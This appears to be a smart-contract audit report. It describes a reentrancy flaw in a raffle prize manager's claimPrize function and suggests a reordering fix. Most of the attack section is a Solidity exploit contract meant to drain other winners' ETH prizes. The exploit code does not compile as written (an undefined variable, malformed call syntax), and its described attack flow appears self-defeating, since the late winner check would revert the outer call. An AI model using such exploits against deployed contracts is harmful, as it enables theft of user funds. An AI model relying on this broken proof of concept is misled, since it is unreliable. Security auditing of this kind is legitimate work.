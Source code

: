 Sticky Sandstone Cuckoo

High

# Winner can steal prizes of other winners

## Summary
Winner can steal other raffles' prizes by reentering the `claimPrize(...)` function

## Vulnerability Detail
Let's consider this attack scenario:
- raffle1 is created
- users are buying tickets
- winner1 is drawn and propagated
- admin calls `withdrawETH()` and `lockETH()`
- raffle2 is created
- users are buying tickets
- winner2 is drawn and propagated
- admin calls `withdrawETH()` and `lockETH()`
- winner2 is actually a malicious smart contract that calls `claimPrize()` a first time on `raffle1` which will pass because this code will only be executed in the last entrance, the one where the malicious contract is actually the winner:
```solidity
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
```
Since `_sendETHPrize(...)` will send the prize of `raffle1` in the `receive()` of the malicious smart contract, where a 2nd call to `claimPrize(...)` will be made, but this time for `raffle2` (the raffle actually won by the malicious contract). For this 2nd entrance, the entire `claimPrize(...)` function will be successfully executed.
Here's the winner2/malicious contract code:
```solidity
// SPDX-License-Identifier: MIT
 
pragma solidity ^0.8.25;
 
import "./interfaces/IWinnablesTicketManager.sol";
import "./interfaces/IWinnablesPrizeManager.sol";
import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Holder.sol";

 contract MaliciousWinner is ERC1155Holder {
	address private owner;
	IWinnablesTicketManager private ticketManager;
	IWinnablesPrizeManager private prizeManager;
	bool private lastEntrance;

	constructor(address _ticketManager, address _prizeManager) {
		owner = msg.sender;
		ticketManager = IWinnablesTicketManager(_ticketManager);
		prizeManager = IWinnablesPrizeManager(_prizeManager);
	}

	function withdrawAll() external {
		(bool success, ) = owner.call{ value: address(this).balance }("");
		require(success, "transfer failed");
	}

	function participate(uint256 raffleId,
        uint16 ticketCount,
        uint256 blockNumber,
        bytes calldata signature) external payable {
		require(msg.sender == owner, "not the owner");
		ticketManager.buyTickets(raffleId,
        ticketCount,
        blockNumber,
        signature);
		// or 
		ticketManager.call(abi.encodeWithSignature(
			"buyTickets(raffleId, ticketCount, blockNumber, signature)",
			raffleId, ticketCount, blockNumber, signature))
			{value: 100};
	}

	function attack(uint256 raffleId) external { // raffleId should be the id of the raffle of type ETH won by another innocent winner that has not claimed his prize yet
		require(msg.sender == owner, "not the owner");
		prizeManager.claimPrize(raffleId);
	}

	receive() external payable {
		if (!lastEntrance) {
			lastEntrance = true;
			prizeManager.claimPrize(raffleId); // raffleId should be the id of the raffle won by this contract
		}
	}
}
```
## Impact
Malicious winner steals innocent winners' prize

## Code Snippet
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L105

## Tool used
Manual Review

## Recommendation
Fix the bug by making the following changes that respect the CEI pattern:
```diff
function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId];
        RaffleType raffleType = rafflePrize.raffleType;
+       if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
+       if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
+       rafflePrize.status = RafflePrizeStatus.CLAIMED;
        if (raffleType == RaffleType.NFT) {
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked { _tokensLocked[raffle.tokenAddress] -= raffle.amount; }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } else if (raffleType == RaffleType.ETH) {
            unchecked { _ethLocked -= _ethRaffles[raffleId]; }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender); // @audit reentrancy
        } else revert InvalidRaffle();
-       if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
-       if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
-       rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
    }
```